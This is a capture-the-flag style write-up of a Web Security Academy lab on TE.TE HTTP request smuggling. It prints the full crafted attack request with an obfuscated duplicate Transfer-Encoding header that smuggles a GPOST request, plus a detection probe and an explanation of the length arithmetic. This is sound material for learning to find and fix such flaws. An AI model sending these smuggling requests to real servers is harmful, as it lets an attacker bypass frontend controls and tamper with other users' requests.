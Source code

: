 ## 1. Introduction

Both frontend and backend server support the Transfer-Encoding header. And one of the servers can be induced not to process it by obfuscating the header.

To uncover a TE.TE vulnerability, it's necessary to find some variation of the TE header such that only, front or backend servers processes it, while the other one ignores it.

Depending which server can be induced not to process the obfuscated TE, the remainder of the attack will take the form as for the CL.TE or TE.CL vulnerabilities.

## 2. Challenge

The frontend server rejects requests that aren't using the GET or POST method.

Two servers handle duplicate HTTP request headers in different ways. The challenge is to smuggle a request to the backend server, so that the next request processed by the backend server appears to use the method GPOST.

## 3. Solution

Attack request:
```http
POST / HTTP/1.1
Host: 0abc003c03ea9bd99765f0fe00680052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: foobar

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0

```

Normal request:
```http
POST / HTTP/1.1
Host: 0abc003c03ea9bd99765f0fe00680052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

The response after sending first the attack request and then the normal one will be:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

## 4. Explanation

Frontend and Backed will process the requests differently, even though they both use Transfer-Encoding. This is important, as we have to first check the behavior and then craft the requests as needed in order to smuggle a request.

This can be detected by sending a request like the following:
```http
POST / HTTP/1.1
Host: 0abc003c03ea9bd99765f0fe00680052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: foobar

0

X
```

After sending this we see a time delay, and then we get a "Server Error: Communication timed out".

This tells us that:
- Frontend still uses Transfer-Encoding even though it is malformed and sends the request to the Backend. 
- Since it uses Transfer-Encoding, the body will be only "0", since it marks the end of the chunk messages.
- Backend receives the request with the body containing only the "0".
- Time delay is caused by Content-Length, since it is 6 bytes, and the body is smaller, it keeps waiting for the other part of the body.
- Backend doesn't accept the malformed Time-Encoding, thus goes back to Content-Length.

From this behavior we can conclude that by malforming the Transfer-Encoding the Frontend will still use it, but the Backend will use Content-Length. So, in order to smuggle the request we need now to craft the request in the similar logic as the TE.CL vulnerability.

So now we craft our request we want to smuggle to backend, as the body of frontend. Since we only want to use the method GPOST, then we create:

```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
```

This body has the length of 5c(hex) bytes. So, since frontend uses Transfer-Encoding, we need to put that in the request, above the body, and "0" in the end to end the chunk.

The Content-Length of the request in Frontend is set to 4, because when it is sent to the backend, it will only take the following part of the request:
```http
POST / HTTP/1.1
Host: 0abc003c03ea9bd99765f0fe00680052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: foobar

5c
```

The remaining part will be known to the backend as the following request:
```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0

```

The Content-Length is set to 11 because the true body length is 10 bytes. This needs to be done, because at least 1 byte needs to be appended from the "normal request" in order for the smuggling to be complete.